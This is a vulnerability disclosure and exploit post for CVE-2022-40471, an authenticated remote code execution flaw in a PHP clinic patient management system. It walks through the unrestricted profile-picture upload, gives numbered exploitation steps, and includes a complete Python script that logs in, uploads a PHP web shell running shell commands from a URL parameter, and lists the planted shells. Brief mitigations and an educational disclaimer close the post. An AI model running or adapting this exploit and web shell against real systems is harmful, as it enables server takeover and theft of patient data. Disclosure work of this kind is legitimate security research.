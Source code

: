 ```yaml
---
title: CVE-2022-40471 Remote Code Execution in Clinic's Patient Management System v 1.0
author: RashidKhanPathan
date: 2019-08-08 11:33:00 +0800
categories: [Exploit, Remote Code Execution, 0Day]
tags: [exploit, 0Day, Remote Code Execution]
---
```



**Date:** September 9, 2022  
**Last Updated:** October 16, 2022

**Exploit Source:** [Exploit Code](https://github.com/RashidKhanPathan/CVE-2022-40471) (exploit code)

**Vendor Homepage:** [Clinic's Patient Management System Source Code](https://www.sourcecodester.com/php-clinics-patient-management-system-source-code)

**Software Link:** [Download Clinic's Patient Management System v1.0](https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-cpms.zip)

**Tested Platforms:** Windows 10, Kali Linux

---

**Description:**

The Clinic's Patient Management System v1.0 contains a severe vulnerability (CVE-2022-40471) allowing remote attackers to execute arbitrary code. This vulnerability arises due to improper handling of user-uploaded profile pictures in the 'users.php' module. Malicious actors can exploit this flaw to upload a PHP web shell, gaining unauthorized access and execution capabilities within the system.

**Affected components - Source Code**

in following Source Code we can see that developer directly allows to upload any media files without restricting an a specific extenstion which means we can upload any extensions file there which is not okay for security reasons and using this functionality flaw, attacker could upload malicious webshell to gain access complete server with root privileges

**Vulnerable Page - users.php**

```php
  // users.php
  $status = move_uploaded_file(
    $_FILES["profile_picture"]["tmp_name"],
    'user_images/' . $targetFile
  );

  if ($status) {
    try {
      $con->beginTransaction();

      $query = "INSERT INTO `users`(`display_name`,
`user_name`, `password`, `profile_picture`)
VALUES('$displayName', '$userName', '$encryptedPassword', '$targetFile');";

      $stmtUser = $con->prepare($query);
      $stmtUser->execute();

      $con->commit();

      $message = 'user registered successfully';
    } catch (PDOException $ex) {
      $con->rollback();
      echo $ex->getTraceAsString();
      echo $ex->getMessage();
      exit;
    }
  } else {
    $message = 'a problem occured in image uploading.';
  }

  header("location:congratulation.php?goto_page=users.php&message=$message");
  exit;
}
```

---

**Exploitation Steps:**

To exploit this vulnerability, an attacker can perform the following steps:
1. Create a customized PHP web shell.
2. Utilize the 'users.php' module to upload the crafted web shell as a profile picture, alongside specifying a Display Name, Username, and Password.
3. Access the uploaded shell via the 'pms/user_images/' directory.
4. Intercept the shell's URL using BurpSuite and proceed to manipulate system commands by appending them after 'pms/user_images/.shell.php?cmd=your_command_here'.

---

**Exploit Code Overview:**

The provided Python script automates the exploitation process. It conducts authentication with the target, facilitates the upload of the malicious PHP web shell via crafted HTTP requests, and outputs the successful upload URL for the shell.

```python
from bs4 import *
import requests
import sys
import time

class RemoteCodeExecution:
    def auth(target_ip, target_port, uri_path, username, password):
        url = f'http://{target_ip}{uri_path}index.php'
        session = requests.get(url)
        cookies = (f"PHPSESSID={session.cookies['PHPSESSID']}")

        header = {
            'Host': target_ip,
            'Origin': 'http://' + target_ip,
            'Referer': 'http://' + target_ip + uri_path,
            'Cookie': cookies
        }

        data_body = {
            'username': username,
            'password': password,
        }

        url_auth = f'http://{target_ip}:{target_port}{uri_path}index.php'
        authentication = requests.post(url_auth, headers=header, data=data_body)

        if 'false' in authentication.text:
            print('[-] Username or password are incorrect, Try again')
            exit()
        else:
            print("[+] Exploit Title: Remote Code Execution (Authenticated) in Clinic's Patient Management System")
            print("[+] Author: RashidKhan Pathan {iHexCoder}")
            print("[@] Twitter: @itRashid")
            print("")
            time.sleep(1)
            print('[+] Authentication completed successfully,')
            print('[+] Uploading The Webshell')
        
        return cookies

    def exploit(target_ip, target_port, uri_path, cookies):
        header = {
                'Host': target_ip,
                'Content-Type': 'multipart/form-data; boundary=---------------------------405058720612140838201526428067',
                'Content-Length': '777',
                'Origin': 'http://' + target_ip,
                'Connection': 'close',
                'Cookie' : cookies,
                'Referer': 'http://' + target_ip + uri_path + 'users.php',
                'Upgrade-Insecure-Requests': '1'
        }


        data_body = '-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="display_name\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="user_name"\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="password"\r\n\r\nRCEEXPLOIT\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="profile_picture"; filename="shell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="save_user"\r\n\r\n-----------------------------405058720612140838201526428067--"; filename="webshell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------29635348012019605651675807433\r\nContent-Disposition: form-data; name="change\r\n\r\n-----------------------------29635348012019605651675807433--\r\n'
        uplaod_url = f"http://{target_ip}:{target_port}{uri_path}users.php"
        requests.post(uplaod_url, headers=header, data=data_body)


def main():
    
    if len(sys.argv) != 6:
        time.sleep(1)
        print("[+] Author: RashidKhan Pathan {iHexCoder}")
        print("[@] Twitter: @itRashid")

        time.sleep(1)
        print('Incorrect parameters!\r\n[!] Useage: python3 CVE-2022-40471.py <target_ip> <target_port> <target_uri> <username> <password>')
        print("[!] Example: python3 CVE-2022-40471.py 127.0.0.1 80 /pms/ UserName Password")

        exit()
        
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    uri_path = sys.argv[3]
    username = sys.argv[4]
    password = sys.argv[5]
    
    
    cookies = RemoteCodeExecution.auth(target_ip, target_port, uri_path, username, password)
    RemoteCodeExecution.exploit(target_ip, target_port, uri_path, cookies)    
    print(f'[+] Webshell uploaded successfully to: http://{target_ip}:{target_port}{uri_path}user_images/')
    print("[+] Enjoy your shell")
    print("[!] Note: In this Exploitation Scenario, Shell Changes the Random Digit after Uploading")
    print("[!] So Can use Any Uploaded Shell with Random Number ")
    print("[!] Copy The One of The Follwing Shell and Exploit it Using Curl ie: http://YourIP/pms/user_images/1663988032shell.php?cmd=whoami")
    print("")
    print("[+] Uploaded Shell")
    def get_url_paths(url, ext='', params={}):
        response = requests.get(url, params=params)
        if response.ok:
            response_text = response.text
        else:
            return response.raise_for_status()
        soup = BeautifulSoup(response_text, 'html.parser')
        parent = [url + node.get('href') for node in soup.find_all('a') if node.get('href').endswith(ext)]
        return parent

    url = 'http://localhost/pms/user_images/'
    ext = 'php'
    result = get_url_paths(url, ext)
    print(result)

   
    
if __name__ == '__main__':
    main()

```

---

**Proof Of Concept**
![Screenshot 2022-10-13 053055](https://user-images.githubusercontent.com/65374016/195474325-7c20861d-c64d-470c-8d03-3fb1078ee3da.png)

###### Mitigations: Please 

**Recommendations:**

- **Immediate Update:** Users are strongly advised to update the Clinic's Patient Management System to a patched version that addresses this critical vulnerability.
- **Restrict File Uploads:** Implement stricter validation mechanisms for file uploads, especially image files, Restrict other extenstions while uploading an image file for profile picture upload functionality and allow only .jpg .png extensions which are only image related to prevent the execution of arbitrary code
- **Regular Security Audits:** Conduct regular security audits and penetration testing to identify and patch potential vulnerabilities in the system.

---

**Disclaimer:**

This exploit demonstration and information are solely for educational purposes and security awareness. Use this knowledge responsibly and only on systems where you have explicit permission for testing or demonstration. - By Author







